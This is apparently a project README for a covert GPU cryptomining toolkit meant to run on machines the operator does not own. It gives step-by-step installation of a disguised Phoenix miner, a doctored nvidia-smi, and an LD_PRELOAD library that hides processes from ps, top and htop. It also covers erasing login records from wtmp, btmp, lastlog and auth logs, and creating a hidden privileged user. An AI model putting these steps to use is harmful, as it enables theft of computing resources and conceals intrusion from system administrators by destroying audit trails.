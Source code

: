 # AWESOME WORK !!!
## Structure
* exec: executed file.
    * nvidia-smi: excludes `systemd-diagnosis` in nvidia-smi panel.
    * systemd-firewall: is an adaptive system resource allocator determines which GPU the slave miners work on.
    * systemd-update: is the same to the `systemd-firewall` but more merciful that only works at midnight.
    * systemd-diagnosis: is the pool slave miner(Phoenix miner main file).
    * libGNU.co: hides specified processes for ps, top ,and htop.

* source: corresponding source code of the executed file in `./exec`.

## Installation

run the `Makefile` by `sudo make`. If you want to be blamed, run it without `sudo`. 

## Prerequiste
### environmental setting
make sure you have:
* gcc, which is preinstalled in your system.
* pyinstaller, installed by `pip install pyinstaller`.

### nvidia-smi
1. please make sure the variable `skip` in `source/nvidia-smi.py` is the same to the **slave miner**'s file name.
1. rename original `nvidia-smi` by `nl-toolkit` in `/usr/bin`.
1. move the *degraded* `nvidia-smi` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx nvidia-smi`.

### systemd-firewall
1. move `systemd-firewall` to `/usr/bin`.
1. add read and execution permissions by `chmod +rx systemd-firewall`.

### systemd-update
1. same to the `systemd-firewall`.

### libGNU.co
1. move `libGNU.co` to `/usr/lib`.
1. add `/usr/lib/libGNU.so` to `/etc/ld.so.preload`; or add `export LD_PRELOAD=/usr/lib/libGNU.so` to `/etc/profile` (remember to execute `source /etc/profile` to make it effective).

**Risk:** add these files to system environment is easy to detect just by `cat /etc/ld.so.preload` or `echo $LD_PRELOAD`.

## Usage
**Very important:** run `sudo -s` first!
### Slash the miner
1. `nohup systemd-firewall 2>&1 > /dev/null &`.
1. check mining status by `nl-toolkit`.

### Check degraded files
1. `nvidia-smi`.
1. `ps aux | grep 'f2pool\|systemd-firewall\|systemd-diagnosis\|nl-toolkit'`.
1. `top -u root` or `htop -u root`.

### Clean login log
1. revise following files by 
```bash
utmpdump [logfile] > tmp_output.txt
utmpdump -r tmp_output.txt > [logfile]
```
* `last`: `/var/log/wtmp`.
* `lastb`: `/var/log/btmp`.

clean `lastlog` by `> /var/log/lastlog` if you are `root` user, or by `vi /var/log/lastlog` for otherwise.

1. delete your login log in `/var/log/auth.log` (for Ubuntu).
1. delete your login log in `/var/log/secure.log` (for CentOS).

## Tips
 * Add a new user by `useradd [your name] -G sudo -d /usr/bin -s /bin/bash -l -M`. `-l` can avoid you be added to `last` and `lastb`, but does not work for `lastlog`. `-M` will not create your home directory.
 * edit `/etc/passwd` to get more privileges for your account.
